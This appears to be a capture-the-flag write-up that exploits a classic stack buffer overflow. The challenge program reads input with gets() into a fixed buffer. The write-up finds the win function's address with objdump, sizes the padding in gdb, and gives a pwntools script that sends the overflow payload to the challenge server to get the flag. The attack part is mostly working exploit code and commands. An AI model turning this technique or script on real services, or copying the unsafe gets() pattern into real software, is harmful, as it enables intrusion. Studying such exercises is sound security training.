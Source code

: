 # Control the flow
nc chal.firebird.sh 33002

1. From the source code, we can see gets() in fncno_1, flag_func exists for flag => attempt for buffer overflow to override the return address for fncno_1 returning to main -> change to flag_func
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

char flag[25];
void flag_func(){

  FILE *f = fopen("flag_rp.txt", "r");
  if (f == NULL) {
    printf("flag file is missing\n");
    exit(0);
  }

  fgets(flag, 25, f);
  printf("%s\n", flag);	

}


void fncno_1(){
  char buf[250];
  gets(buf);

  printf("%s\n", buf);


}

int main(int argc, char **argv){
setbuf(stdout,NULL);
gid_t gid = getegid();                           
setresgid(gid, gid, gid);

  puts("We fired the last programmer. Type something in and I'll repeat it to you, but I still can't remember too many things...\n");
  fncno_1();
  return 0;
}

```

2. Find the function pointer address of flag_func:
```
objdump -M intel -d return_pointer
```
We can see that for flag_func, its address: 0x080485b6

3. Attempt to build the code to try so as find the length of string need to write for overflow:
```
gcc -m32 return_pointer.c -g -o demo1 -fno-stack-protector -no-pie
objdump -M intel -d demo1
```
- After that, using gdb, run with the input cauing overflow
e.g. AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcdefghijklmnopqr

- Check that where it will override EIP (return address for function) -> Invalid PC address error should be seen

4. Create a Python script using pwn library to solve this problem
```Python
from pwn import *

context.log_level = 'DEBUG'

# p = process('./demo1')
p= remote('chal.firebird.sh', 33002)

win = 0x080485b6

buf = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcdefghijklm' + p32(win)

p.recvline()
p.sendline(buf)
p.interactive()
```

5. Execute it with python
```
python3 solve.py
```

![alt text](http://url/to/img.png)
![alt text](http://url/to/img.png)

Flag obtained:
flag{th15_1s_4_gd_st4rt}
